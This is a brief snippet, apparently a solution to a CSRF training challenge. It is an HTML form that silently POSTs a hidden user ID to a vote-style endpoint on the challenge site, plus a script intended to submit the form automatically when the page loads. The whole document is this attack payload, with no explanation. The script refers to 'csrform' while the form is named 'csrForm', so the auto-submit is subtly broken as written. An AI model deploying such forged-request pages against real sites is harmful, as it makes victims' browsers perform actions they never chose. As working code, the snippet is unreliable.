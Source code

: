 <form name="csrForm" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
	<input type="hidden" name="userId" value="42b6279baa94c167307e2fc22fd5b1df369d9bc8" />
	<input type="submit"/>
</form>
<script> document.csrform.submit(); </script>
